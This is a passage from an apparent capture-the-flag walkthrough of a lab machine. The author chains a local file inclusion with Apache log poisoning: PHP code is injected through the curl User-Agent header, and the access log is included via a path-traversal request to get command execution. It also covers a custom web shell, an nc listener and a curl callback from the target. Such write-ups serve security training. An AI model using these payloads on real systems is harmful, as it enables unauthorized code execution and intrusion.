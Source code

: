 And I verify with the LFI that I can read the `access_log` file, Then I could perform a `server log poison attack`. When I send a payload to verify the vulnerability, and I modify the `user-agent` header with the `-A` switch of the `curl` command:
```shell
$ curl -s "http://ftp.cybox.company" -A '<?php system("id"); ?>' \
> &>/dev/null
```
And I get the `access_log` file:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/logs/access_log%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"
```
But the file does not return, and that means I broke it because the PHP code can not run correctly, and at this point, I have to reboot the machine. When I analyze the behavior of the `access_log` file. then **I can understand that the double quotes were the problem**, and it is because **the user agent is enclosed with double quotes**. and with the double quotes of my payload, the user agent value is closed, and PHP ends up trying to run the command halfway. When I change the payload with single quotes:
```shell
$ curl -s "http://ftp.cybox.company" -A "<?php system('id'); ?>" \
> &>/dev/null
```
And I run the `curl` command again to get the `access_log` file, then I get the output.
```shell
192.168.56.101 - - [03/Jan/2023:21:02:28 +0100] "GET /index.php HTTP/1.1"
 200 19783 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101
 Firefox/78.0"
192.168.56.101 - - [03/Jan/2023:21:02:38 +0100] "POST /index.php HTTP/1.1"
 200 23084 "http://ftp.cybox.company/index.php"
 "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.56.101 - - [03/Jan/2023:21:07:43 +0100] "GET / HTTP/1.1" 200 5295
"-" "uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
And I can see the output of the `id` command, the `RCE` works. but after noticing how delicate the file is and I could easily break it, then I try to run a reverse shell, but for a reason, all my attempts fail, then I decide to use a web shell instead, and I write a python script [webshell.py](./static/webshell.py), and I use the `cmd` module to build a `line-oriented` shell.

When I run the script:
```shell
$ python3 web_shell.py
```
Then a shell is opened to run commands as the 'daemon' user:
```shell
daemon$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
And I know it is the `daemon` user because of the files I read with LFI, and I want to know why the reverse shell fails. When I open a listener on my local machine with the `nc` command:
```shell
$ nc -lnvp 1234
```
And with the web shell, I use the `curl` command, and I redirect the `STDERR` to the `STDOUT`:
```shell
$ daemon$ curl http://192.168.56.101:1234 2>&1
curl: (7) couldn't connect to host
```
Then it seems that the network config prevents me from reaching my IP. when I start to explore the server with the web shell, and I found the user flag on the `cybox` home:
